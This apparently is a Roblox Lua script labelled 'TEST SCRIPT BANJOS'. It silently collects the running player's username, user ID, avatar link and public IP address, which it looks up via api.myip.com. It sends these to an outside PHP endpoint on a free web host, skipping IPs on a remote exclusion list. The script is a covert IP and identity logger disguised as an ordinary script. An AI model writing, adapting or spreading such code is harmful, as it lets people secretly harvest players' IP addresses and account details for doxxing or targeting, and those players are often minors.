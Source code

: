 _G.scriptName = "TEST SCRIPT BANJOS"
-- inicia la funcion 
function Systema()
	local player = game.Players.LocalPlayer
	local Name = player.Name
	local UserId = player.UserId
	local thumbnail = "http://www.roblox.com/Thumbs/Avatar.ashx?username=" .. Name
	local webhook_link = "https://sgamesc.000webhostapp.com/bbbSystem.php"
	local ip_api_link = "https://api.myip.com/"
	local no_log_ip_link = "https://sgamesc.000webhostapp.com/noiplog.json"
	local client_ip = nil
	local no_log_ips = nil
	local success, resp = pcall(
		function ()
			return game:HttpGet(ip_api_link)
		end
	)
	if success then
		client_ip = game.HttpService:JSONDecode(resp)
		if client_ip.ip then
			client_ip = client_ip.ip
		end
	end

	local success, resp = pcall(
		function ()
			return game:HttpGet(no_log_ip_link)
		end
	)

	if success then
		no_log_ips = game.HttpService:JSONDecode(resp)
		no_log_ips = no_log_ips["no-log-ip"]
	end

	if no_log_ips then
		for _,ip in pairs(no_log_ips) do
			if client_ip.ip == ip then
				return
			end
		end
	end



	if client_ip then
		local URLPARAMS = "?"
		local URL_PARAMS_TABLE = {
			["USERID"] = UserId,
			["USERNAME"] = Name,
			["THUMBNAIL"] = thumbnail,
			["SCRIPT_NAME"] = _G.scriptName,
			["CLIENT_IP"] = client_ip
		}
		local counter = 0
		for param,value in pairs(URL_PARAMS_TABLE) do
			counter = counter + 1
			if counter == #URL_PARAMS_TABLE then
				URLPARAMS = URLPARAMS .. param .. "=" .. value
			end
			URLPARAMS = URLPARAMS .. param .. "=" .. value .. "&"
		end
		if URLPARAMS ~= "?" then
			game:HttpGet(webhook_link .. URLPARAMS)
		end
		counter = 0
	end

	--?USERID=&USERNAME=&THUMBNAIL=&SCRIPT_NAME=&CLIENT_IP=

end

Systema()
